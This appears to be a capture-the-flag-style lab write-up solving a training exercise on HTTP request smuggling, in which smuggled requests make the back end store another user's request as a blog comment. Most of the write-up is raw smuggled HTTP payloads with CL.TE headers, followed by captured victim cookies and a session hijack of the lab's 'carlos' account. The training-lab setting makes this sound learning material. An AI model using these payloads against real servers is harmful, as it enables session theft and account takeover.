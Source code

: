 # Exploiting HTTP request smuggling to capture other users' requests

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

---

step 1

```
Transfer-Encoding: chunked

userid=test
```

![screenshot](./images/images_lab9/lab9_post_request_500_error.png)

step 2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab9/lab9_post_request_200_ok.png)

step 3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```

![screenshot](./images/images_lab9/lab9_post_request_500_cl.png)

step 4

```
Content-Length: 135
Transfer-Encoding: chunked

b
userid=test
0


POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

userid=test

```

![screenshot](./images/images_lab9/lab9_method_not_allowed.png)

step 5

```
Content-Length: 134
Transfer-Encoding: chunked

b
userid=test
0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab9/lab9_post_id_5_payload.png)

step 6

```
Content-Length: 118
Transfer-Encoding: chunked

0


GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test

```

![screenshot](./images/images_lab9/lab9_get-post_request.png)

step 7

post comment and intercept

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

![screenshot](./images/images_lab9/lab9_post_comment.png)

step 8

![screenshot](./images/images_lab9/lab9_add_copy_csrf_section_with_comment.png)

step 9

post comment with different comment

![screenshot](./images/images_lab9/lab9_remove_unnesaary_header.png)

---

step 10

final payload testing

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&comment=this+is+test&name=testname&email=test%40mail.com&website=
```

change comment section like this

```
csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

```
Content-Length: 254
Transfer-Encoding: chunked

0

post /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Cookie: session=oRaLAPeBQwjMu7hH7CY3ApQxu34w7O4t

csrf=D5a7tvBfmUgluc1MpJYSpRDZnixghk2x&postId=3&name=hackk&email=test1%40mail.com&website=&comment=
```

![screenshot](./images/images_lab9/lab9_post_comment_payload.png)

---

step 11

increase content-Length with `900` to get session id

```
cookie: victim-fingerprint=4qXhX3JGIaZ1nPA7DfDUN3o3x3j0QUFk;
secret=biu3gp5YN1RAKIZOStdiVv3xysxFQ0fB;
session=s47pz7I1zqG9g5mnsLTjYxHstu2CUtpq
```

![screenshot](./images/images_lab9/lab9_add_content_length_900.png)

---

step 12

login carlos account with any random password
and intercept and replace session id with session id from **\_\_\_\_**

step 11

![screenshot](./images/images_lab9/lab9_intercept_carslos_account.png)

![screenshot](./images/images_lab9/lab9_lab_solved.png)
